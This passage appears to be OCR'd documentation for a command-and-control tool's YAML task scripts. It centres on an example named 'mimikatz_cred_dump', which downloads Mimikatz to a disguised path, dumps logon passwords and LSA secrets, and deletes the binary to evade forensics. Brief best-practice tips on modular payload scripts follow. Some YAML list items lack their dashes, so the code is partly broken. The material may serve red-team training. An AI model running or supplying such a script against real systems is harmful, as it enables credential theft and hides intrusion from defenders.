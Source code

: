 ```

      # Restore sleep time
      - action: sleep
        args: [10]
        
  - name: mimikatz_cred_dump
    description: "Download and execute Mimikatz to dump credentials"
    steps:
      # Reduce sleep time for faster check-in
      - action: sleep
        args: [10]

      - action: execution_mode # flip to sync so the download completes before running the next command
        args: ['sync']

      # Download Mimikatz to a less suspicious location
      - action: http_get
        args: ["https://github.com/ParrotSec/mimikatz/raw/refs/heads/master/x64/mimikatz.exe", "C:\\Windows\\Tasks\\mimi.exe"]

      # Extract logon passwords
        action: shell
        args: ["C:\\Windows\\Tasks\\mimi.exe privilege::debug sekurlsa::logonpasswords exit"]

      # Extract LSA secrets
        action: shell
        args: ["C:\\Windows\\Tasks\\mimi.exe privilege::debug sekurlsa::secrets exit"]


      # Delete the Mimikatz binary and output file for forensic evasion
      - action: delete_file
        args: ["C:\\Windows\\Tasks\\mimi.exe"]

      - action: execution_mode
        args: ['async']

      # Restore sleep time to normal
      - action: sleep
        args: [10]



```


---

## **Best Practices for Custom Scripts**  

### **Keep Commands Modular**  
- Break down complex actions into multiple **smaller actions** instead of having one massive YAML file.
- Example: Instead of one `deploy_payload`, create separate `upload_payload` and `execute_payload` scripts.
